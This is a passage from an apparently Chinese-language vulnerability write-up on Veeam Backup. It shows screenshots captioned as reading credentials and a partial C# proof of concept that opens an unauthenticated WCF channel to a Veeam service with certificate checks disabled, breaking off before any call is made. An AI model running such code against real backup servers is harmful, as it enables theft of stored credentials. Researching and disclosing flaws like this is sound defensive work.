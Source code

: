 [![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/5808d1a6-8f31-bbf1-41c9-f85f1dc4c892.png)](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/5808d1a6-8f31-bbf1-41c9-f85f1dc4c892.png "image.png")

image.png

最终读取凭据并返回

[![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/d8ced442-be42-51ce-a71a-a4c1417ab360.png)](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/d8ced442-be42-51ce-a71a-a4c1417ab360.png "image.png")

image.png

debug调试看到确实如此

[![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/07603723-febb-aa54-1c1c-4214d14b268f.png)](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/07603723-febb-aa54-1c1c-4214d14b268f.png "image.png")

image.png

写代码看看

csharp

```
using System;
using System.IdentityModel.Selectors;
using System.IO;
using System.Runtime.Serialization.Formatters.Binary;
using System.Security.Cryptography.X509Certificates;
using System.ServiceModel;
using System.ServiceModel.Security;
using System.Xml;
using Veeam.Backup.Interaction.MountService;

namespace ConsoleApp4
{
    internal class Program
    {
        static void Main(string[] args)
        {
            NetTcpBinding binding = new NetTcpBinding();
            NetTcpSecurity netTcpSecurity = new NetTcpSecurity();
            netTcpSecurity.Mode = SecurityMode.Transport;
            TcpTransportSecurity tcpTransportSecurity = new TcpTransportSecurity();
            tcpTransportSecurity.ClientCredentialType = TcpClientCredentialType.None;
            netTcpSecurity.Transport = tcpTransportSecurity;
            binding.Security = netTcpSecurity;
            binding.Name = "NetTcpBinding_IRemoteInvokeService";
            Uri uri = new Uri("net.tcp://172.16.16.153:9401/");
            EndpointAddress endpoint = new EndpointAddress(uri, EndpointIdentity.CreateDnsIdentity("Veeam Backup Server Certificate"));
            ChannelFactory<IRemoteInvokeService> myChannelFactory = new ChannelFactory<IRemoteInvokeService>(binding, endpoint);
            X509ServiceCertificateAuthentication x509ServiceCertificateAuthentication = new X509ServiceCertificateAuthentication();
            x509ServiceCertificateAuthentication.CertificateValidationMode = X509CertificateValidationMode.None;
            myChannelFactory.Credentials.ServiceCertificate.SslCertificateAuthentication = x509ServiceCertificateAuthentication;
            IRemoteInvokeService cVbRestoreServiceStub = myChannelFactory.CreateChannel(endpoint);
            Guid guid = Guid.NewGuid();

            MemoryStream memoryStream = new MemoryStream();
            BinaryFormatter binaryFormatter = new BinaryFormatter();
            binaryFormatter.Serialize(memoryStream, true);
```